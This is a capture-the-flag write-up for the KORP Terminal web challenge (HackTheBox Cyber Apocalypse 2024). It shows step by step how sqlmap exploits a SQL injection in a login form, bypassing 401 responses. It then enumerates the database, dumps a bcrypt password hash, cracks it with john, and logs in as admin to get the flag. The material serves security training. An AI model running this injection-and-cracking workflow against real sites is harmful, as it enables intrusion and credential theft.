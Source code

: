 ```yaml
---
name: KORP Terminal (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for KORP Terminal (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# KORP Terminal

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=375 "HackTheBox Cyber Apocalypse '24: KORP Terminal (web)")

## Description

> Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

## Solution

Greeted by a login page. If we send single quotes in username/password box it triggers a MySQL error 👀

Tried SQLMap but it fails due to `401: Unauthorized`.

Luckily, we can just ignore that HTTP code.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch --ignore-code 401

[INFO] POST parameter 'username' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
```
{% endcode %}

Find the databases.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch --ignore-code 401 --dbs

available databases [3]:
[*] information_schema
[*] korp_terminal
[*] test
```
{% endcode %}

Then the tables.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch --ignore-code 401 -D korp_terminal --tables

+-------+
| users |
+-------+
```
{% endcode %}

Dump the passwords.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch --ignore-code 401 -D korp_terminal -T users -C password --dump

+--------------------------------------------------------------+
| password                                                     |
+--------------------------------------------------------------+
| $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. |
+--------------------------------------------------------------+
```
{% endcode %}

Crack the `bcrypt` hash with `john`.

{% code overflow="wrap" %}
```bash
john hash --wordlist=$rockyou

password123
```
{% endcode %}

Log in to the app and receive the flag.

{% code overflow="wrap" %}
```bash
admin:password123
```
{% endcode %}

Flag: `HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}`
